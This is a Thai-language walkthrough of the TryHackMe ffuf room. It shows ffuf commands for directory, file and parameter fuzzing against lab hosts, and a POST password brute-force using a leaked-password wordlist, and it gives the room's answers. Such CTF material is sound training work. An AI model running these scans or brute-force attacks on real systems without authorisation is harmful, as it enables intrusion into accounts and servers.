






## ✨ บทนำ
ห้องนี้เป็นห้องแนะนำเครื่องมือ ffuf (Fuzz Faster U Fool) ซึ่งเป็นเครื่องมือ fuzzing สำหรับเว็บแอปพลิเคชันที่เร็วและยืดหยุ่นมาก ใช้สำหรับ brute-force URL paths, parameters, virtual hosts, และอื่น ๆ ผ่านคำสั่งที่สามารถปรับแต่งได้หลากหลาย

## 🎯 เป้าหมายของโจทย์
- เรียนรู้การใช้งานเครื่องมือ ffuf เพื่อทำ Directory และ File fuzzing บน Web Server
- วิเคราะห์และตีความค่า HTTP status code ที่ตอบกลับจากการ fuzz
- ฝึกการใช้ wordlists กับ ffuf เพื่อค้นหา paths ที่ซ่อนอยู่ เช่น /admin, /backup, /login ฯลฯ
- ใช้ฟีเจอร์เพิ่มเติมของ ffuf เช่นการตั้ง header, การเจาะพารามิเตอร์, และการปรับ output format
- เข้าใจการ fuzz แบบมีโครงสร้าง เช่น fuzz ใน URL, ในพารามิเตอร์, หรือในค่าต่าง ๆ ของฟอร์ม

# 🧠 TryHackMe - FFUF 🔍💥

🟡 **หมวด:** Web / Fuzzing / Content Discovery  
🧩 **ความยาก:** Easy  
🕵️‍♂️ **โหมด:** CTF แบบ Walkthrough + Hands-on Lab  
🔗 **URL:** [FFUF](https://tryhackme.com/room/ffuf)  
👨‍💻 **ผู้ทำ:** Thanyakorn

---

## 📚 สารบัญเนื้อหา: FFUF TryHackMe Walkthrough

1. ✨ [บทนำ](#-บทนำ)  
2. 🎯 [เป้าหมายของโจทย์](#-เป้าหมายของโจทย์)  
3. 🛠️ [ขั้นตอนการทำ](#-ขั้นตอนการทำ)
   - 3.1 🔍 [เข้าถึงเว็บเป้าหมาย](#ขั้นตอนที่-1-เข้าถึงเว็บเป้าหมาย)  
   - 3.2 🧪 [Fuzz ไฟล์และโฟลเดอร์ด้วย ffuf](#ขั้นตอนที่-2-ใช้คำสั่ง-ffuf-เพื่อค้นหาไฟล์และโฟลเดอร์)  
   - 3.3 🧱 [เจาะลึกด้วย Wordlist สำหรับไฟล์ .txt](#ขั้นตอนที่-3-fuzz-หาชื่อไฟล์ด้วย-wordlist-แบบละเอียด)  
   - 3.4 🧾 [ตรวจสอบนามสกุลของ index](#ขั้นตอนที่-4-ตรวจสอบนามสกุลไฟล์ของ-index)  
   - 3.5 🧩 [ค้นหาไฟล์ .php และ .txt](#ขั้นตอนที่-5-เพิ่มการค้นหาด้วยนามสกุลไฟล์-php-และ-txt)  
   - 3.6 📂 [ค้นหา Directory ที่มีอยู่ทั้งหมด](#ขั้นตอนที่-6-ค้นหา-directory-ที่มีอยู่ทั้งหมด)  
   - 3.7 🚫 [Filter สถานะ HTTP 403](#ขั้นตอนที่-7-ใช้-filter-เพื่อตัดสถานะ-http-403-ออก)  
   - 3.8 ✅ [แสดงเฉพาะ HTTP 200](#ขั้นตอนที่-8-ใช้-filter-เพื่อแสดงเฉพาะหน้าเว็บที่มีสถานะ-http-200-เท่านั้น)  
   - 3.9 🕵️‍♂️ [เปรียบเทียบ -fc และ -fr](#ขั้นตอนที่-9-เปรียบเทียบผลระหว่าง--fc-และ--fr-เพื่อหาว่าไฟล์สำคัญไหนจะถูกซ่อนไป)  
4. 🧪 [Task 5 – Fuzzing Parameters](#-task-5--fuzzing-parameters)  
   - 4.1 🌐 [เข้าถึง URL ฐาน](#ขั้นตอนที่-1-ลองเข้าหน้า-url-ก่อน)  
   - 4.2 🔎 [Fuzz หาชื่อพารามิเตอร์](#ขั้นตอนที่-2-fuzz-หาชื่อพารามิเตอร์ที่ใช้งานได้)  
   - 4.3 🔢 [Fuzz หาค่าที่ตอบสนองใน id](#ขั้นตอนที่-3-fuzz-หาค่าตัวเลขที่ใช้งานได้ในพารามิเตอร์-id)  
   - 4.4 🔐 [Brute-force รหัสผ่านด้วย ffuf](#ขั้นตอนที่-4-ใช้-ffuf-ทำการเดารหัสผ่าน-password-brute-force)  
5. 🧠 [คำถามทบทวนเกี่ยวกับ ffuf](#-คำถามย่อยเกี่ยวกับ-ffuf-ใน-task-reviewing-the-options)  


🟡 **หมวด:** Web / Fuzzing / Content Discovery  
🧩 **ความยาก:** Easy
🕵️‍♂️ **โหมด:** CTF แบบ Walkthrough + Hands-on Lab  
🔗 **URL:** [FFUF](https://tryhackme.com/room/ffuf)  
👨‍💻 **ผู้ทำ:** Thanyakorn

---

# 🛠️ ขั้นตอนการทำ

## ขั้นตอนที่ 1. **เข้าถึงเว็บเป้าหมาย**
   - เปิดเว็บเบราว์เซอร์ แล้วใส่ IP Address ที่โจทย์กำหนด (เช่น `http://10.201.120.42`)
   - จะพบหน้าเว็บหลักตามภาพด้านล่าง


## ขั้นตอนที่ 2: **ใช้คำสั่ง ffuf เพื่อค้นหาไฟล์และโฟลเดอร์** 🔍

- ใช้คำสั่งนี้เพื่อฟัซซ์ (fuzz) ชื่อไฟล์หรือโฟลเดอร์บนเว็บเซิร์ฟเวอร์

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```


📌 คำอธิบายคำสั่ง:  
- `-u` คือ URL ที่ต้องการทดสอบ โดยตำแหน่ง `FUZZ` จะถูกแทนที่ด้วยคำจาก wordlist  
- `-w` คือไฟล์ wordlist ที่ใช้ค้นหาคำที่เป็นไปได้ในตำแหน่ง `FUZZ`  

📊 ผลลัพธ์ที่ได้คือ รายการไฟล์หรือโฟลเดอร์ที่พบในเซิร์ฟเวอร์ซึ่งตอบกลับด้วย HTTP status code ที่น่าสนใจ เช่น 200, 301 เป็นต้น

✅ จากการใช้คำสั่ง ffuf พบว่าไฟล์แรกที่มีสถานะ HTTP 200 คือ favicon.ico

## ขั้นตอนที่ 3: 🔍 Fuzz หาชื่อไฟล์ด้วย Wordlist แบบละเอียด

🛠️ คำสั่งที่ใช้

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```


📌 คำอธิบายคำสั่ง:
- `-w` ชี้ไปยังไฟล์ wordlist ที่ใช้ ซึ่งในที่นี้คือ wordlist สำหรับชื่อ ไฟล์ ขนาดกลางและเป็น lowercase ทั้งหมด
(เหมาะสำหรับการเจาะลึกหาไฟล์สำคัญที่ไม่ได้อยู่ใน root directory แบบพื้นฐาน)

✅ จากการใช้คำสั่ง ffuf พบว่า ไฟล์แรกที่มีสถานะ HTTP 200 คือ favicon.ico
แต่ถ้าดูเฉพาะ ไฟล์ที่เป็น .txt จะพบว่า:

➡️ robots.txt คือไฟล์ที่ค้นพบและตรงกับคำถาม

## ขั้นตอนที่ 4: ตรวจสอบนามสกุลไฟล์ของ index

- 📥 เป้าหมายคือค้นหาว่าไฟล์ index มีนามสกุลอะไรบ้างที่มีอยู่จริงในระบบ โดยใช้คำสั่ง ffuf กับ wordlist สำหรับนามสกุลของไฟล์เว็บ

```bash
ffuf -u http://10.201.120.42/indexFUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt
```


📌 คำอธิบายคำสั่ง:

- `indexFUZZ` จะถูกแทนที่ด้วยนามสกุลจาก wordlist เช่น `.php`, `.html`, `.bak` ฯลฯ
- Wordlist ที่ใช้: `web-extensions.txt` เป็นลิสต์ของนามสกุลไฟล์ยอดนิยมที่มักพบในเว็บแอป

✅ ผลลัพธ์ที่ค้นพบ:
- 🔒 `index.phps` → [Status: 403] (ถูกห้ามเข้าถึง)
- 🔁 `index.php` → [Status: 302] (ถูก redirect ไปที่หน้าอื่น)

## ขั้นตอนที่ 5: เพิ่มการค้นหาด้วยนามสกุลไฟล์ .php และ .txt

- ในขั้นตอนนี้ เราจะใช้คำสั่ง ffuf เพื่อค้นหาไฟล์หรือหน้าเว็บที่มีนามสกุล .php และ .txt

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -e .php,.txt
```


📌 คำอธิบายคำสั่งเพิ่มเติม:
- `-u` กำหนด URL ที่ต้องการทดสอบ โดยตำแหน่ง FUZZ จะถูกแทนที่ด้วยคำจาก wordlist
- `-w` ระบุไฟล์ wordlist ที่ใช้ค้นหาคำที่เป็นไปได้
- `-e .php,.txt` บอก `ffuf` ให้ทดสอบด้วยนามสกุลไฟล์ที่ระบุ คือ `.php` และ `.txt` (extension) เพื่อค้นหาไฟล์ที่มีนามสกุลเหล่านี้

✅ จากการใช้คำสั่ง ffuf ค้นหาไฟล์โดยเพิ่มนามสกุล .php และ .txt พบว่าไฟล์ about.php มีขนาด 4840 ไบต์

## ขั้นตอนที่ 6: ค้นหา Directory ที่มีอยู่ทั้งหมด

🛠️ คำสั่งที่ใช้:

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```



📊 ผลลัพธ์ที่ได้
- เจอ directory ทั้งหมดได้แก่:
  - `docs`
  - `config`
  - `external`
  - `server-status` 

✅ จำนวน directory ที่พบและเข้าถึงได้ คือ docs, config, external และ server-status

## ขั้นตอนที่ 7: ใช้ Filter เพื่อตัดสถานะ HTTP 403 ออก

🛠️ คำสั่งที่ใช้:

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -fc 403
```



📌 คำอธิบายคำสั่ง:

- `-fc 403` คือการกรอง (filter) ผลลัพธ์ที่มีสถานะ HTTP 403 Forbidden ออกไป
(หมายความว่า ffuf จะไม่แสดงผลลัพธ์ที่ตอบกลับด้วย 403)

🎯 วัตถุประสงค์:
เพื่อให้เห็นเฉพาะไฟล์หรือโฟลเดอร์ที่ไม่ถูกบล็อกด้วยสิทธิ์ (ไม่ใช่ 403) ทำให้ค้นหาได้สะดวกขึ้น

📊 ผลลัพธ์:
จะเห็นรายการที่ตอบกลับสถานะอื่น ๆ ที่ไม่ใช่ 403 เช่น 200, 302, 301 เป็นต้น

✅ หลังจากใช้ filter ตัดสถานะ 403 แล้ว จำนวนผลลัพธ์ที่ได้คือ 11 รายการ

## ขั้นตอนที่ 8: ใช้ Filter เพื่อแสดงเฉพาะหน้าเว็บที่มีสถานะ HTTP 200 เท่านั้น

🛠️ คำสั่งที่ใช้:

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -mc 200
```



📌 คำอธิบายคำสั่ง:
- `-mc 200` ย่อมาจาก `match code` หมายถึง แสดงผลเฉพาะรายการที่มีสถานะ HTTP 200 OK เท่านั้น
- การกรองแบบนี้ช่วยให้เรามุ่งเน้นเฉพาะหน้าเว็บที่โหลดสำเร็จ ไม่รวมพวก 302 redirect, 403 forbidden หรือ 404 not found

🎯 วัตถุประสงค์ของขั้นตอนนี้:
เพื่อหาว่ามีหน้าเว็บไหนที่สามารถเข้าถึงได้สำเร็จจริง (status 200) จากการ brute-force ด้วย wordlist

✅📊 ผลลัพธ์ที่ได้มีทั้งหมด 6 รายการ ที่แสดงผลลัพธ์ status 200

 ## ขั้นตอนที่ 9: เปรียบเทียบผลระหว่าง -fc และ -fr เพื่อหาว่าไฟล์สำคัญไหนจะถูกซ่อนไป

 
🔍 คำถามจาก TryHackMe:
> "Which valuable file would have been hidden if you used -fc 403 instead of -fr?"
> (ไฟล์สำคัญอะไรที่เราจะมองไม่เห็นถ้าใช้ -fc 403 แทน -fr?)

🛠️ คำสั่งที่ใช้:

```bash
ffuf -u http://10.201.120.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -fr '/\..*'
```



📌 คำอธิบายคำสั่ง:
- `-fr '/\..*'` = Filter Regex ใช้กรองรายการผลลัพธ์ที่ขึ้นต้นด้วยจุด (`.`) เช่น `.git` หรือ `.env` ออกจากผลลัพธ์
- การใช้ `-fr` ไม่ได้กรองตาม Status Code เหมือน `-fc` แต่กรองตามแพทเทิร์นใน path ที่เรากำหนด
- ในข้อนี้เราไม่กรอง status 403 ออกไป ทำให้ยังเห็นไฟล์ที่ถูก block อยู่ (เช่น 403 Forbidden)

หากใช้คำสั่งแบบนี้แทน:

```bash
ffuf ... -fc 403
```

มันจะ กรองผลลัพธ์ทั้งหมดที่มีสถานะ 403 ออกไปทันที ซึ่งหมายความว่าไฟล์ wp-forum.phps จะ ไม่ถูกแสดงให้เห็นเลย

✅ จากผลลัพธ์ มีไฟล์หนึ่งที่ได้สถานะ 403 คือ: wp-forum.phps

🧠 Note เพิ่มเติม (เชิงเทคนิคจริงจัง):
ไฟล์ `.phps` มักจะถูกเซิร์ฟเวอร์ config ไว้ให้แสดงซอร์สโค้ดของ PHP แทนที่จะ execute — ดังนั้นหากหลุดออกมา เป็นประตูให้เราเห็น logic ภายในโดยไม่ต้อง execute จริง นี่ถือว่า "ของดี" ในการเจาะระบบ และควรถูกจับตา

## 🧪 Task 5 – Fuzzing Parameters
> 🔍 Base URL ที่ใช้: `http://10.201.92.170/sqli-labs/Less-1/`

🔧 เป้าหมายของ Task นี้:
1. ทดสอบว่า endpoint `/sqli-labs/Less-1/` รับ parameter อะไรบ้าง
2. ใช้ ffuf เพื่อค้นหาพารามิเตอร์ที่ใช้งานอยู่ เช่น `id`, `user`, `page`, etc.
3. เตรียมไว้สำหรับการทดสอบ SQLi หรือ input validation ถัดไป

### ขั้นตอนที่ 1: ลองเข้าหน้า URL ก่อน

เปิดใน browser:

```bash
http://10.201.92.170/sqli-labs/Less-1/
```



### ขั้นตอนที่ 2: Fuzz หาชื่อพารามิเตอร์ที่ใช้งานได้

🎯 วัตถุประสงค์
เราจะทำการ fuzz เพื่อค้นหาว่า server ยอมรับ พารามิเตอร์ชื่ออะไร ผ่าน URL นี้:

```bash
http://10.201.92.170/sqli-labs/Less-1/
```

🛠️ คำสั่งที่ใช้

```bash
ffuf -u 'http://10.201.92.170/sqli-labs/Less-1/?FUZZ=1' -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 39
```


📌 อธิบายคำสั่ง
- `-u 'http://.../?FUZZ=1'`: จุดที่จะทำ Fuzz คือชื่อของพารามิเตอร์ เช่น `?id=1`, `?user=1`
- `-w /.../burp-parameter-names.txt`: Wordlist ที่ใช้สำหรับชื่อพารามิเตอร์ โดยอิงจาก Burp Suite ซึ่งรวบรวมชื่อพารามิเตอร์ที่พบบ่อย
- `-fw 39`:	เป็นการกรอง (filter) ไม่แสดงผลลัพธ์ที่จำนวนคำ (Words) เท่ากับ 39 — ซึ่งมักเป็น response เดิม ๆ ที่ไม่ตอบสนองต่อพารามิเตอร์
- `-c`: แสดงผลลัพธ์เป็นสี ช่วยให้มองเห็นได้ชัดเจนขึ้น

✅ ผลลัพธ์

```bash
id        [Status: 200, Size: 721, Words: 37, Lines: 29, Duration: 360ms]
```

💡 หมายความว่า:
- Web App ยอมรับพารามิเตอร์ `id` จริง
- เมื่อใส่ `?id=1` แล้ว Response แตกต่างจากพารามิเตอร์อื่นที่ไม่มีผล
- ตรงตามจุดมุ่งหมายของการ fuzz

### 🔢 ขั้นตอนที่ 3: Fuzz หาค่าตัวเลขที่ใช้งานได้ในพารามิเตอร์ id

🎯 เป้าหมายของขั้นตอน
- ตรวจสอบว่า Web App ยอมรับค่าใดบ้างในพารามิเตอร์ `id`
- ใช้เทคนิคการ generate number range (0-255) เพื่อระบุค่าที่ทำให้ response ของเว็บเปลี่ยนแปลง
- หาค่าที่ response แตกต่างจากปกติ ซึ่งอาจหมายถึงข้อมูลหรือผลลัพธ์ที่น่าสนใจ

🛠️ คำสั่งที่ใช้

```bash
for i in {0..255}; do echo $i; done | ffuf -u 'http://10.201.92.170/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
```


📌 อธิบายคำสั่ง
- `for i in {0..255}; do echo $i; done`: สร้างค่าตัวเลขตั้งแต่ 0 ถึง 255 ทีละค่า
- `-u '...id=FUZZ'`: Fuzz ค่าของพารามิเตอร์ id
- `-fw 33`: กรอง response ที่มีจำนวนคำ (Words) เท่ากับ 33 ซึ่งเป็น response ปกติที่ไม่แสดงข้อมูลสำคัญ
- `-c`: เปิดโหมดสีให้ดูผลลัพธ์ง่ายขึ้น

✅ ผลลัพธ์ที่ได้จากการรันคำสั่งสูงสุดคือ 14

### 🔐 ขั้นตอนที่ 4: ใช้ Ffuf ทำการเดารหัสผ่าน (Password Brute-force)

> 🧠 เป้าหมาย: ใช้ `ffuf` เพื่อทำ Brute-force attack กับแบบฟอร์มล็อกอิน โดยเดารหัสผ่านจาก wordlist ที่มีรหัสผ่านหลุดจากฐานข้อมูล

🧪 คำอธิบายเบื้องหลัง
ในกรณีนี้เราต้องการหาว่า รหัสผ่านของผู้ใช้ Dummy คืออะไร โดยยิง request แบบ POST ไปยังเว็บ `http://10.201.92.170/sqli-labs/Less-11/` ด้วยรหัสผ่านจาก wordlist

🛠️ คำสั่งที่ใช้

```bash
ffuf -u http://10.201.92.170/sqli-labs/Less-11/ \
  -c \
  -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt \
  -X POST \
  -d 'uname=Dummy&passwd=FUZZ&submit=Submit' \
  -fs 1435 \
  -H 'Content-Type: application/x-www-form-urlencoded'
```

📌 อธิบายคำสั่ง
- `-u`	URL ที่จะยิง request
- `-w`	Wordlist ที่ใช้ในการเดารหัสผ่าน (`FUZZ` จะถูกแทนด้วยแต่ละบรรทัดในไฟล์)
- `-X POST`	ระบุให้ใช้ HTTP POST
- `-d`	ข้อมูลที่ส่งไปกับ POST เช่น `uname=Dummy&passwd=FUZZ` (เดา `passwd`)
- `-H`	กำหนด Header ว่าใช้ `application/x-www-form-urlencoded` (แบบฟอร์มเว็บทั่วไป)
- `-fs 1435`	Filter ผลลัพธ์ที่มีขนาด 1435 byte (หมายถึง “response ผิด” เพื่อซ่อนมัน)
- `-c`	แสดงผลแบบมีสี อ่านง่าย



✅ ผลลัพธ์ที่ได้

```bash
p@ssword       [Status: 200, Size: 1526, Words: 100, Lines: 50, Duration: 252ms]
```

✅ จากผลลัพธ์:
- Response เดียวที่ ไม่ถูก filter (ขนาดไม่ใช่ 1435) คือ `p@ssword`
- แปลว่าเว็บตอบกลับไม่เหมือนเดิม ซึ่งมักเป็นการตอบกลับของ Login สำเร็จ

## 📚 คำถามย่อยเกี่ยวกับ ffuf (ใน Task Reviewing the options)

| ❓ Question | ✅ Correct Answer | 📌 Explanation |
|------------|------------------|---------------------------|
| **1. How do you save the output to a markdown file (`ffuf.md`)?** | `-of md -o ffuf.md` | ใช้ `-of md` เพื่อระบุว่าให้ออกรูปแบบผลลัพธ์เป็น Markdown และ `-o ffuf.md` เพื่อระบุชื่อไฟล์ที่ต้องการบันทึก เช่น `ffuf.md` เหมาะกับการส่งรายงานหรือบันทึกผลแบบสวยงาม |
| **2. How do you re-use a raw http request file?** | `-request` | ใช้ `-request` เพื่อโหลดคำขอ HTTP ที่เขียนไว้ล่วงหน้า เช่น จาก Burp Suite หรือ ZAP ซึ่งบันทึกไว้เป็น raw HTTP request ทั้งหมด (GET/POST + Header + Body) ใช้กรณี fuzzing form หรือ API |
| **3. How do you strip comments from a wordlist?** | `-ic` | ใช้ `-ic` (ignore comments) สำหรับข้ามบรรทัดที่ขึ้นต้นด้วย `#` ใน wordlist เพื่อให้ ffuf ใช้เฉพาะคำที่จำเป็นจริง ๆ ลด noise และหลีกเลี่ยง error จากบรรทัดที่ไม่ใช่ payload |
| **4. How would you read a wordlist from STDIN?** | `-w -` | เครื่องหมาย `-w -` หมายถึงให้อ่าน wordlist จาก STDIN เช่น `seq 1 100 | ffuf -w -` หรือ `for i in {0..255}; do echo $i; done | ffuf -w -` ช่วยให้ไม่ต้องสร้างไฟล์ wordlist ชั่วคราว |
| **5. How do you print full URLs and redirect locations?** | `-v` | ใช้ `-v` (verbose) เพื่อให้แสดง URL เต็ม ๆ ที่ส่ง request ไป พร้อม redirect ที่เกิดขึ้น เช่น จาก HTTP 302 ที่พาไปหน้าล็อกอิน, หน้า error, หรือ location อื่น ๆ |
| **6. What option would you use to follow redirects?** | `-r` | ใช้ `-r` (follow redirect) ถ้า target มีการเปลี่ยนเส้นทาง (301/302) เช่น Login Form ที่ Redirect เมื่อ login fail/success หรือเวลาทำ brute force แล้วโดน redirect ไป error page |
| **7. How do you enable colorized output?** | `-c` | ใช้ `-c` เพื่อเปิดการแสดงผลแบบมีสี เช่น ข้อความสีเขียวคือ status 200, สีแดงคือ error, ฯลฯ ทำให้อ่านง่ายและเห็น pattern ชัดเจนเวลารันใน terminal |
